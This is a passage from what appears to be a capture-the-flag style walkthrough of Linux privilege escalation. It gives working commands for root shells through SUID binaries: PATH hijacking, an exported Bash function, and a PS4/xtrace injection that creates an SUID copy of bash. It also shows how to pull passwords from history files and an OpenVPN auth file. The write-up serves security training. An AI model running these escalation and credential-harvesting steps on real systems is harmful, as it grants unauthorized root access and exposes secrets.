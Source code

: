 Now compiling `gcc -o service /home/user/tools/suid/service.c`. Now, running `PATH=.:$PATH /usr/local/bin/suid-env` gives us root shell!!

# Task 14 - SUID / SGID Executables - Abusing Shell Features (#1)

The `/usr/local/bin/suid-env2` executable is identical to suid-env but it has the absolut path.

Only Bash versions <4.2-048 are vulnerable to this attack. Here we are going to define shell functions that resembles the path and then export the function.

1st check for version using the command `/bin/bash --version`. Now let's create a shell function.

```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Now running `/usr/local/bin/suid-env2` we get root access!

# Task 15 - SUID / SGID Executables - Abusing Shell Features (#2)

**Note: This will not work on Bash versions 4.4 and above.**

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.

Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

Run `/tmp/rootbash -p` gives us root shell!

# Task 16 - Passwords & Keys - History Files

Sometime we may type the password in the command line instead of the command prompt and that is stored int the history.

`cat ~/.*history | less` => mysql -h somehost.local -uroot -ppassword123

root password : su root => password123

# Task 17 - Passwords & Keys - Config Files

In myvpn.ovpn file there is a location `/etc/openvpn/auth.txt` and it has contents

```
root
password123
```
